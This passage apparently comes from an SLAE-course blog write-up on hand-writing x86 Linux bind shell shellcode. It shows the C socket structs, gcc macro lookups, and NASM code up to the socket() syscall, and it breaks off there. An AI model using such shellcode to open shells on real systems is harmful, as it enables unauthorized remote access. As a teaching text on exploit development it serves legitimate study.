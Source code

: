 We also leveraged 2 structs in our C program which we will most likely need
to replicate.

{% highlight c %}
    #include <netinet/in.h>
    
    // All pointers to socket address structures are often cast to pointers
    // to this type before use in various functions and system calls:
    
    struct sockaddr {
        unsigned short    sa_family;    // address family, AF_xxx
        char              sa_data[14];  // 14 bytes of protocol address
    };
    
    
    // IPv4 AF_INET sockets:
    
    struct sockaddr_in {
        short            sin_family;   // e.g. AF_INET, AF_INET6
        unsigned short   sin_port;     // e.g. htons(3490)
        struct in_addr   sin_addr;     // see struct in_addr, below
        char             sin_zero[8];  // zero this if you want to
    };
{% endhighlight %}

Ok. Using what we have gathered from our analysis lets take an attempt at
writing some assembly!

## Assembly: Take 1<a id="sec-1-6" name="sec-1-6"></a>

Lets lookup some values of constants:

    ~/usr/src/linux-headers-4.0.0-kali1-common/include/linux/socket.h~

    #define AF_INET   2 /* Internet IP Protocol   */

I had a hard time finding where `SOCK_STREAM` was defined so we use
a little gcc magic to see what the macro expands to:

    root@blahblah:~/shared/SLAE/slae/exercise1# gcc -DN -E bindshell.c | grep SOCK_STREAM
    SOCK_STREAM = 1,
    int lsock = socket(2, SOCK_STREAM, 0);

    #define INADDR_ANY ((unsigned long int) 0x00000000)

{% highlight nasm %}
    global _start
    ;; Note: We will store 2 file descriptors along the way
    ;; We will put the listening socket file descriptor in edi
    ;; We will put the connection socket file descriptor in ebx
    
    section .text
      _start:
        ;; Create a socket
        ;; int socketcall(int call, unsigned long *args);
        ;; int socket(int domain, int type, int protocol);
        ;; #define SYS_SOCKET 1   /* sys_socket(2)    */
        ;; Use socketcall to call down to socket
        xor eax, eax
        mov al, 0x66 ; socketcall syscall
        xor ebx, ebx
        mov bl, 0x1 ; sys_socket syscall number
    
        ;; Put the socket() args on the stack
        xor ecx, ecx
        push ecx ; Specify protocol as 0
        push ebx ; SOCK_STREAM is the type of socket 1
        push 0x2 ; Domain af_inet sets protocol family to ip protocol 2
    
        mov ecx, esp ; Save pointer to args for the socket() call
        int 0x80 ; call sys_socket